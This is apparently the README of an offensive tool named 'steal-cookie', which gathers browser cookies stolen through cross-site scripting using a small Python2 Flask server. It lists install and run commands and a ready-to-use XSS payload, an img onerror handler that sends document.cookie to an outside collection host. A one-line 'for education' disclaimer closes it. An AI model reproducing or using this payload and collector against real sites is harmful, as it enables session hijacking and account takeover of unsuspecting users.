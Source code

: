 # steal-cookie
steal cookies from websites using xss :)

# Requirements :
- python2
- Flask module

# install requirements (Linux) :

````
$ apt install python2
````

````
$ pip install flask
````


# Run It :
 

````
 $ python2 xss.py
 ````
 
# stealing cookie using xss :


  <h4>enter the cookie in this url </h4>
 

````http://YOUR_IP/cookie?cookie=COOKIE```` 
 

# Payload :
  
  ````
  "><img src="x" onerror='document.location="http://xss-exploiter/cookie?cookie=" + document.cookie'>
  ````
  

# Note :
    
This Tool For education .. Good Luck ^_^


# My Links :

- <a href="https://www.facebook.com/profile.php?id=100015121337012" > <h3> Facebook </h3></a>

